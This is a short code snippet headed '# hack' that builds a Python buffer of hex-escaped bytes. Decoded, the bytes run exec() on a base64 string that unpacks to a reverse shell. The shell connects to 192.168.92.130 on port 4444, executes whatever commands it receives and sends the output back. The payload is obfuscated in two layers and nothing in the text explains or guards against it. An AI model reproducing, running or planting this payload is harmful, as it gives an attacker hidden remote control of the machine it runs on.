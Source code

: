# hack
buf =  "" buf += "\x65\x78\x65\x63\x28\x27\x61\x57\x31\x77\x62\x33\x4a" buf += "\x30\x49\x48\x4e\x76\x59\x32\x74\x6c\x64\x43\x78\x76" buf += "\x63\x77\x70\x7a\x62\x7a\x31\x7a\x62\x32\x4e\x72\x5a" buf += "\x58\x51\x75\x63\x32\x39\x6a\x61\x32\x56\x30\x4b\x48" buf += "\x4e\x76\x59\x32\x74\x6c\x64\x43\x35\x42\x52\x6c\x39" buf += "\x4a\x54\x6b\x56\x55\x4c\x48\x4e\x76\x59\x32\x74\x6c" buf += "\x64\x43\x35\x54\x54\x30\x4e\x4c\x58\x31\x4e\x55\x55" buf += "\x6b\x56\x42\x54\x53\x6b\x4b\x63\x32\x38\x75\x59\x32" buf += "\x39\x75\x62\x6d\x56\x6a\x64\x43\x67\x6f\x4a\x7a\x45" buf += "\x35\x4d\x69\x34\x78\x4e\x6a\x67\x75\x4f\x54\x49\x75" buf += "\x4d\x54\x4d\x77\x4a\x79\x77\x30\x4e\x44\x51\x30\x4b" buf += "\x53\x6b\x4b\x51\x57\x30\x39\x52\x6d\x46\x73\x63\x32" buf += "\x55\x4b\x64\x32\x68\x70\x62\x47\x55\x67\x62\x6d\x39" buf += "\x30\x49\x45\x46\x74\x4f\x67\x6f\x4a\x5a\x47\x46\x30" buf += "\x59\x54\x31\x7a\x62\x79\x35\x79\x5a\x57\x4e\x32\x4b" buf += "\x44\x45\x77\x4d\x6a\x51\x70\x43\x67\x6c\x70\x5a\x69" buf += "\x42\x73\x5a\x57\x34\x6f\x5a\x47\x46\x30\x59\x53\x6b" buf += "\x39\x50\x54\x41\x36\x43\x67\x6b\x4a\x51\x57\x30\x39" buf += "\x56\x48\x4a\x31\x5a\x51\x6f\x4a\x63\x33\x52\x6b\x61" buf += "\x57\x34\x73\x63\x33\x52\x6b\x62\x33\x56\x30\x4c\x48" buf += "\x4e\x30\x5a\x47\x56\x79\x63\x69\x77\x39\x62\x33\x4d" buf += "\x75\x63\x47\x39\x77\x5a\x57\x34\x7a\x4b\x47\x52\x68" buf += "\x64\x47\x45\x70\x43\x67\x6c\x7a\x64\x47\x52\x76\x64" buf += "\x58\x52\x66\x64\x6d\x46\x73\x64\x57\x55\x39\x63\x33" buf += "\x52\x6b\x62\x33\x56\x30\x4c\x6e\x4a\x6c\x59\x57\x51" buf += "\x6f\x4b\x53\x74\x7a\x64\x47\x52\x6c\x63\x6e\x49\x75" buf += "\x63\x6d\x56\x68\x5a\x43\x67\x70\x43\x67\x6c\x7a\x62" buf += "\x79\x35\x7a\x5a\x57\x35\x6b\x4b\x48\x4e\x30\x5a\x47" buf += "\x39\x31\x64\x46\x39\x32\x59\x57\x78\x31\x5a\x53\x6b" buf += "\x4b\x27\x2e\x64\x65\x63\x6f\x64\x65\x28\x27\x62\x61" buf += "\x73\x65\x36\x34\x27\x29\x29"
